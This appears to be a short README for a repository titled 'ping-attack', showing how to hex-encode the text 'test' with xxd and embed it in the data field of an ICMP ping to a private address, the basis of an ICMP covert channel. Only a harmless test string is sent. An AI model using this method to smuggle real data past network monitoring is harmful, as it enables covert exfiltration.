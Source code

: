# ping-attack

Basic Commands:

'''shell
#!/bin/bash
#This will take the text "test" and convert to hex
echo "test" | xxd -p
#746573740a
#This will ping the ip address and add the hex of "test" into the data field
ping -c 1 192.168.1.5 -p 746573740a
